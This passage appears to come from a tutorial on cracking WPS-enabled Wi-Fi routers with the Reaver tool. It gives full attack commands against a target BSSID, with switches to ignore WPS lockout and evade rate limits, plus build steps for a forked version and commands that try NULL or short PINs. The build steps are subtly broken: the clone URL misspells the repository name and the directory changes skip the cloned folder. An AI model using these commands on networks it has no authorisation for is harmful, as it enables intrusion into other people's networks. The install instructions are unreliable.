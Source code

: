 Ideally, the above command works and the attack progresses as expected. But in reality, manufacturers implement smarter protections against Reaver-style attacks, and additional options may be required to get the attack moving.

As a countermeasure, a few optional switches can be added to get Reaver working on more picky devices:
```
reaver -i wlan0mon -c 11 -b 11:22:33:44:55:66 -vv -L -N -d 10 -T .5 -r 4:20
```
where

-c 11is channel 11

-L ignores locked WPS state

-N Don't send NACK packets when errors are detected

-d 10 Delay 10 seconds between PIN attempts

-T .5 sets timeout period to half a second

-r 4:20 after 4 attempts, sleep for 20 seconds

Simply type reaver if you to look for more options to experiment:

reaver

Reaver is armed with a pin "12345670" that appears not changing but in fact it is the starting point followed by subsequent variations to attack the router. Knowing that it is only a matter of time to strike a successful hit, clever designers put a NULL pin for which the traditional Reaver programmer had never expected. A patched version of reaver-wps-fork-t6x emerged in 2017 in the light of combating the NULL pin.

Installation was pretty straight forward on a newly created Reaver diractory:
```
mkdir reaver

cd reaver

git clone https://github.com/t6x/reaver-wps-furk-t6x.git

apt-get install -y libpcap-dev

cd src

./configure

make && make install
```
The -p option becomes available to foster a NULL pin or a digit sequence of various lengths.

NULL pin:
```
reaver -i wlan0mon -b 11:22:33:44:55:66 -vv -K 1 -p ""
```
Pin with a length of 4 digits:
```
reaver -i wlan0mon -b 11:22:33:44:55:66 -vv -K 1 -p "4321"
```
